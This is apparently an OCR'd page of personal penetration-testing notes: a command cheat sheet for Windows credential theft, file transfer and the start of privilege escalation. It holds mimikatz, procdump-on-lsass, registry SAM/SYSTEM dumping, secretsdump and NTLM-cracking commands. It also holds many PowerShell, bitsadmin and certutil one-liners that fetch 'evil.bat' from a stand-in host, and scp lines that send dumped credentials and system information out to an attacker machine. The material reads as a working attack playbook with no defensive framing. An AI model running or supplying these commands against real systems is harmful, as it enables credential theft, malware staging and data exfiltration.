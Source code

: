 token::elevate  
lsadump::cache  
## Collecting Creds NTLM  
*mimikatz on disk*  
mimikatz.exe  
privilege::debug  
token::elevate  
sekurlsa::logonPasswords  
1abb67a2890554c8506e0a82869392b1  
*procdump and sharpdump*  
cd  
procdump64.exe -accepteula -r -ma lsass.exe lsass.dmp  
scp eve@demo:C:/Users/eve/creds/lsass.dmp /opt/kinetic/creds/lsass.dmp  
pypykatz lsa minidump /tmp/lsass.dmp  
*Reg saving*  
reg save hklm\sam C:\Users\eve\creds\sam  
reg save hklm\system C:\Users\eve\creds\system  
scp eve@demo:C:/Users/eve/creds/system /opt/kinetic/creds/system  
scp eve@demo:C:/Users/eve/creds/sam /opt/kinetic/creds/sam  
pypykatz registry /opt/kinetic/creds/system --sam /opt/kinetic/creds/sam  
*Task Manager*  
Details >> Right click lsass.exe >> Create dump file  
*cme*  
crackmapexec smb demo -u eve -p eve --local-auth --sam  
*crack ntlm*  
john --format=nt  pass-eve.txt -w=/opt/kinetic/creds/pass/lst  
*secrets dump*  
python3 secretsdump.py kinetic/kram@polar  
*Metasploit*  
use post/windows/gather/smart_hashdump  
## Moving files  
powershell Invoke-WebRequest -uri [http://xxx/kinetic/evil.bat](http://xxx/kinetic/evil.bat) -outfile C:\ProgramData\evil.bat  
powershell wget [http://xxx/kinetic/evil.bat](http://xxx/kinetic/evil.bat) -OutFile C:\ProgramData\evil.bat  
powershell iwr -uri [http://xxx/kinetic/evil.bat](http://xxx/kinetic/evil.bat) -outfile C:\ProgramData\evil.bat  
powershell Invoke-RestMethod -Uri [http://xxx/kinetic/evil.bat](http://xxx/kinetic/evil.bat) -OutFile C:\ProgramData\evil.bat  
powershell irm -Uri [http://xxx/kinetic/evil.bat](http://xxx/kinetic/evil.bat) -OutFile C:\ProgramData\evil.bat  
powershell Start-BitsTransfer -Source [http://xxx/kinetic/evil.bat](http://xxx/kinetic/evil.bat) -Destination C:\ProgramData\evil.bat  
python3 smbserver.py -username kali -password hunter2 -smb2support kali /tmp  
net use x: [\\](file:///\\xxx\kali)xxx\kali /user:kali hunter2  
*SCP*  
scp C:\ProgramData\juice.txt kali@xxx:/tmp/juice.txt  
scp kram@polar:C:/ProgramData/juice.txt /tmp/juice2.txt  
scp winPEAS.exe kram@polar:C:\\ProgramData\\winp.exe  
*bitsadmin*  
bitsadmin /transfer /download [http://xxx/kinetic/evil.bat](http://xxx/kinetic/evil.bat) C:\ProgramData\evil.bat  
*certutil*  
certutil -urlcache -split -f [http://xxx/kinetic/evil.bat](http://xxx/kinetic/evil.bat) C:\ProgramData\evil.bat  
certutil -encode evil.bat evil.b64  
certutil -decode evi.b64 evi.bat  
## PrivEsc  
systeminfo.exe > out.txt  
scp C:\Users\kram\out.txt kali@xxx:/tmp/a.txt  